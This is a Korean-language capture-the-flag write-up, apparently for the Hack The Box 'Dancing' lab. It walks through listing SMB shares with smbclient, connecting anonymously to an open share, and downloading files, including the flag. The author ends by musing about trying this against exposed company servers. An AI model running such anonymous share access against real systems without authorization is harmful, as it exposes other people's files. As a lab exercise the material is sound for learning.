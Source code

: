 ```yaml
---
title: HTB Dancing Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
images:
    path: /assets/image_post/20240203134342.png
---
```

이번 문제는 SMB 관련된 기초 문제이다.
![](../assets/image_post/20240203162738.png)


SMB 관련되어 통신을 해본적이 단 한번도 없으므로 아래 내용 자체를 이해하지 못해, 검색해보았다. 그랬더니 smbclient라는 툴을 사용해야하만 하는 문제였다.
![](../assets/image_post/20240203162816.png)

smbclient 실행 시 아래의 옵션이 있으며, 리스트 확인하는 거라면 '-L'이라는 것을 알 수 있다.
``` shell
# smbclient -h

Invalid option -h: unknown option

Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse]
        [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout] [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report]
        [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM] [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash]
        [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN] [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE]
        [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version] [OPTIONS] service <password>
```
실제로 연결 시도 시 아래와 같이 출력되는 것을 확인 할 수 있다.
``` shell
# smbclient -L 10.129.86.199
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.86.199 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
각각의 내용은 아래와 같다.
<br/><br/>


| Sharename    | Type  | Comment                    |
|--------------|-------|----------------------------|
| ADMIN$       | Disk  | 원격 관리를 위한 특별한 공유 폴더로, 시스템 관리자가 원격으로 서버를 관리하는 데 사용됩니다.               |
| C$           | Disk  | 서버의 C 드라이브에 대한 기본 공유로, 서버의 파일 시스템에 접근할 수 있도록 합니다.                         |
| IPC$         | IPC   | Inter-Process Communication(프로세스 간 통신)에 사용되는 특수한 공유 폴더로, 사용자들이 직접 접근할 필요가 없습니다. |
| WorkShares   | Disk  | 서버에서 추가로 설정된 디스크 또는 디렉토리를 나타내며, 해당 폴더의 "Disk" 타입은 파일 및 디렉토리를 공유할 수 있음을 의미합니다. "Comment"에는 해당 공유에 대한 설명이나 주석이 들어갑니다. |


문제 6번에 대한 답이 당연히 'anonymous'인줄 알았으나, 오답이였다. 힌트를 확인해보니, 위 결과에서 $가 없는 이름이 정답인듯 하다.
![](../assets/image_post/20240203163617.png)

몇 가지 검색 해보니 "$" 여부에 대한 아래의 내용을 찾을 수 있다.
> $가 없는 공유는 일반적으로 사용자에게 익명으로 접근이 허용되는 공유를 의미합니다. 예를 들어, Public 공유는 일반적으로 모든 사용자에게 열려있고, 로그인이 필요 없는 익명 공유로 간주됩니다.


이제 대상 WorkShares에는 '$' 표시가 없으므로 익명으로 접속하는 옵션인 -N을 붙여 연결을 시도하면 아래와 같이 접속이 가능하다.
``` shell
# smbclient //10.129.86.199/WorkShares -N

Try "help" to get a list of possible commands.
smb: \>
```

접속 후 어떤 파일이 있는 확인 후 아래와 같이 다운로드 할 수 있다.
``` shell
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 09:08:24 2021
  ..                                  D        0  Mon Mar 29 09:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 11:00:37 2021
		5114111 blocks of size 4096. 1748861 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

``` shell
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

		5114111 blocks of size 4096. 1748861 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

SMB 연결 해제 후 받아온 파일 내용을 확인하면 flag 획득이 가능하다.
```
# cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
#
# cat flag.txt
........
```

SMB 관련 악성코드도 분석해보고 했지만, 실제로 이렇게 SMB 연결해본 것은 처음이다. 앞으로도 사내 서버가 외부에 SMB 포트가 노출되어 있다면, 이렇게 접근해보는 것도 괜찮을 것 같다.
![](../assets/image_post/20240203165009.png)